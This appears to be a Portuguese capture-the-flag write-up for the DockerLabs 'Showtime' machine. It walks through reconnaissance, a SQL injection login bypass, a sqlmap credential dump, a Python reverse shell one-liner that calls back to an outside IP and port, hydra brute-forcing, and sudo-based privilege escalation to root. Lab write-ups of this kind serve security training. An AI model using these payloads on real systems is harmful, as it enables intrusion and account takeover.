



maq.showtime
MÁQUINA SHOWTIME
Para utilizar esta máquina devemos primeiro baixar os arquivos e assim implantá-la com Docker.
Baixamos o arquivo da página https://dockerlabs.es/
Para implantar o laboratório executamos da seguinte forma, para que também possamos ver que ele nos diz a direção que teremos, bem como o que fazer quando terminarmos.
COLETA DE INFORMAÇÕES
nmap 172.17.0.2 -A -sS -sV -sC -Pn -T5 -p-

Temos as porta 22 e 80 aberta.
22/tcp open ssh OpenSSH 9.6p1 Ubuntu
80/tcp open http Apache httpd 2.4.58 ((Ubuntu))
Vamos explorar a porta 80: http://172.17.0.2/
Vamos fazer um fuzzing para ver se tem pastas ocultas, com a ferramenta gobuster.
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .txt,.php,.py,.html
Achamos vários diretórios ( /images.../assets.../icon../css.../js..../fonts...login_page )
Vamos entrar na pasta de login que nos importa agora: http://172.17.0.2/login_page/
Realizar a Injeção de SQL no Campo de Login: ' OR '1'='1
A mensagem "Bienvenido, ' OR '1'='1! A sessão foi iniciada corretamente." indica que o payload de injeção SQL ' OR '1'='1funcionou, permitindo que você faça login sem fornecer credenciais válidas. Esse resultado demonstra uma vulnerabilidade de SQL Injection (SQLi) na aplicação, que aceitou a instrução maliciosa sem validação adequada.
Vamos usar a ferramenta burp suite para interceptar a requisição de login.
Vamos manda a requisição intercepitada para intruder, para fazer o ataque de forma automatica.
Ataque :
Proximo passo criar um arquivo requests.txt... como mostra na foto acima no numero ( 10° copiar request e criar o arquivo .txt ).
Vamos fazer o ataque com sqlmap :
sqlmap -r requests.txt --level=5 --risk=3 --dump
conseguimos 3 usuários e senha.
Vamos voltar para a pagina de login do site e tentar logar com os usuários.
vamos fazer o login com usuário :
joe
senha: MiClaveEsInhackeable
login do joe feito com sucesso
Agora vamos fazer um reverse shell em python:
mas ante vamos deixar o netcat na esculta.

note que a primeira tentativa do reverse shell nao fucionou:
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.24",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"]);'
retorno
Agora vamos editar o reverse shell, excluindo python3 -c e a aspas simples ( ‘ ’ ) no começo e no final do reverse shell:
Ficando assim:
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.24",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"]);
Temos a reverse shell:
Agora vamos explorar para ter privilégios.
sudo -l , nao temos nenhum retorno.
Usando o comando find /tmp -type f -name "*.txt" 2>/dev/null veja que temos um arquivo chamado .hidden_text.txt:

Vamos cria um arquivo de senhas.txt com essas palavras acima:
para criar o arquivo é com o comando nano senhas.txt.
para ver ler o arquivo o comando cat senhas.txt.
Vamos fazer uma ataque de força bruta com hydra no usuário joe e no luciano.
Veja que ambos os usuário a senha nao foi encotrada.
joe:
luciano:
Se fomos observar a wordlists das senha ela esta todas com as letras maiúsculas.

Então vamos editar a wordlists senhas.txt e colocar todas as palavras em letras minúsculas, e para fazer isso vamos usar o chatgpt.
Vamos usar o nano para editar senhas.txt
Agora vamos fazer o ataque nomavante com hydra.
Vamos entra no ssh com usuário joe:
Vamos buscar por privilégios sudo -l .
A saída do comando sudo -l mostra que o usuário joe tem permissão para executar o comando /bin/posh como o usuário luciano sem necessidade de senha (NOPASSWD).
Veja que entramos no usuário luciano.
sudo -u luciano /bin/posh
Vamos novamente procurar por privilégios com sudo -l.
A saída do comando sudo -l para o usuário luciano indica que ele tem permissão para executar o script /home/luciano/script.sh como o usuário root sem precisar de senha (NOPASSWD). Isso significa que o usuário luciano pode obter privilégios de administrador (root) ao rodar esse script.
Como o arquivo script.sh tem permissões de leitura e escrita para o proprietário (luciano), você pode editá-lo diretamente sem precisar de sudo. Basta usar um comando de redirecionamento para adicionar o comando /bin/bash ao script. Veja como fazer:
echo "/bin/bash" > /home/luciano/script.sh
sudo /bin/bash /home/luciano/script.sh
somos root
R10